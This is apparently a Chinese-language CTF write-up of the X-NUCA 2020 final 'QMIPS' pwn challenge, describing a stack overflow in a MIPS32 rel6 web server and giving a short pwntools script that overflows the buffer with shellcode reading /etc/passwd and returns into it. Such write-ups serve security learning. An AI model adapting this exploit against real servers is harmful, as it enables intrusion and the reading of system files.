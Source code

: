 ```yaml
---
title: X-NUCA 2020 Final 团队赛：QMIPS
date: 2020-12-11 00:00:00
categories:
- CTF/Pwn
tags: X-NUCA XNUCA
---
```


> 题目为网络接口的Web Server，瞎发包测出来的栈溢出，没审出来的原因是给出的目标程序的指令集是MIPS32 rel6（第六个大版本的MIPS32的指令集），比赛时手中的IDA7.5并不能正确的分析出其伪代码。当然有现场直接看汇编看出来毛病的同学，人家是厉害。因为是qemu环境，所以利用直接就是ret2shellcode就完了，不过shellcode只在堆上存在，但因为是qemu-user所以堆的地址在一个环境中是固定的，还是可以猜大概的地址来完成攻击的。

附件：[qmips.zip](https://xuanxuanblingbling.github.io/assets/attachment/xnuca/qmips.zip)

```python
from pwn import *
context(arch='mips',endian='big')

shellcode = asm(shellcraft.mips.linux.cat("/etc/passwd",7))
payload = shellcode.ljust(544,'a') + p32(0x418290)
io = remote("10.10.10.135",8000)
io.send(payload)
io.interactive()
```

- [西湖论剑IoT && X-NUCA && KCTF Q3](https://ama2in9.top/2020/12/19/xihulunjian/)